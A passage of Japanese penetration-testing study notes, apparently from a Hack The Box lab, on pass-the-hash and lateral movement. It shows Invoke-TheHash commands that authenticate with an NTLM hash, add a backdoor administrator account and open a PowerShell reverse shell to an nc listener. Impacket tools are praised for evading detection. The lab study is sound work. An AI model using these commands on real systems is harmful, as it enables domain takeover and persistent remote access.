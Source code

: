 #### PowerShell Invoke-TheHashでハッシュを渡す
- WMI と SMB でPath The Hash攻撃を実行するための PowerShell 関数
- 接続
	- NET TCPクライアント
- 認証
	- NTLMハッシュをNTLMv2認証プロトコルに渡す
- SMBかWMIコマンドが使える

#### 使用例
**mark という名前の新しいユーザーを作成し、そのユーザーを Administrators グループに追加する**
```powershell
PS c:\htb> cd C:\tools\Invoke-TheHash\
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

| オプション      | 説明                                              |
| ---------- | ----------------------------------------------- |
| `Target`   | ターゲットのホスト名または IP アドレス。                          |
| `Username` | 認証に使用するユーザー名。                                   |
| `Domain`   | 認証に使用するドメイン（ローカルアカウントや `@domain` を指定する場合は不要）。   |
| `Hash`     | 認証のための NTLM パスワードハッシュ（`LM:NTLM` または `NTLM` 形式）。 |
| `Command`  | ターゲットで実行するコマンド（指定しない場合は WMI アクセス確認のみ）。          |

**リバースシェルを張る**
ターゲット側でncで待ち受ける
```powershell
PS C:\tools> .\nc.exe -lvnp 8001
listening on [any] 8001 ...
```

- [https://www.revshells.com/](https://www.revshells.com/)の**PowerShell #3 (Base64)**を使う
	- リバースシェルで指定する**Windowsのメンバーサーバー**のIPは、グローバルIPじゃなくて、DC(Domain Contoroller)と繋がってるインターネットのIPにするんだぞ
	- 一回、`ipconfig`でIP列挙しないと沼る
- `Invoke-TheHash`を実行して、ターゲットのターゲットコンピュータでPowerShellリバースシェルスクリプトを実行する

```powershell
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command " [https://www.revshells.com/](https://www.revshells.com/)のPowerShell #3 (Base64)のコピペ"

[+] Command executed with process id 520 on DC01
```


### Linuxで横方向への攻撃
具体的なシナリオ
Kali LinuxとかでターゲットのWindowsを攻撃して、そこからさらに掌握したWindowsの中で得られた情報を使って、Kali Linuxで横展開の攻撃を行うイメージ
#### Impacket
- [Impacket](https://github.com/SecureAuthCorp/impacket)には、`Command Execution`や`Credential Dumping`、`Enumeration`など、さまざまな操作に使用できるいくつかのツールがある
- 下のコマンドの他にもこれらのツールが使える
	- [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
		- Windows Management Instrumentation (WMI) を使って、指定したユーザーの権限でリモートコマンドを実行する
		-  psexec や smbexec とは違い、NT AUTHORITY\SYSTEM
		-  David のアカウント権限で直接リモートコマンドを実行できる
		-  ファイアウォールやセキュリティ対策を回避しやすい
		-  低い検出率でコマンドを実行可能
	- [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
	- [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)